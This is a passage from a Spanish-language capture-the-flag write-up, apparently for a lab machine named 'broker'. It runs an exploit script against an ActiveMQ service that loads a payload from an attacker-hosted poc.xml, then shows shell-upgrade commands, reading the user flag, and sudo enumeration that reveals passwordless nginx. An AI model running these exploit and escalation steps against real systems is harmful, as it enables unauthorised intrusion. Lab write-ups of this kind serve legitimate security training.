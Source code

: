 ```bash
 python exploit.py -i 10.10.11.243 -p 61616 -u http://10.10.14.7/poc.xml
```

![image](https://github.com/user-attachments/assets/93f4d6f0-3c14-4b89-942d-0cf3bbd2d137)



## 🛠️ Mejora de la Shell

Una vez ingresamos a la máquina, realizamos un spawn de la tty:

```bash
script /dev/null -c bash
```

```bash
ctrl +z
stty raw -echo; fg
reset xterm
```

```bash
echo $TERM
export TERM=xterm
export SHELL=/bin/bash
```

```bash
# Comprobamos el tamaño de la ventana de la terminal en el host de ataque
stty size
30 127
```

```bash
# Establecemos el tamaño en base  a la salida del stty size anterior

stty rows 30 columns 127
```


A continuación Obtenemos la primera flag en el directorio /home/activemq:

```bash
activemq@broker:~$ cat user.txt
cat user.txt
06cb0****************5ce5f86fe
```

## 🔑 Escalada de privilegios

Tras enumerar la máquina y no encontrar nada relevante, verificamos si el usuario activemq puede ejecutar algo como sudo:

```bash
sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```
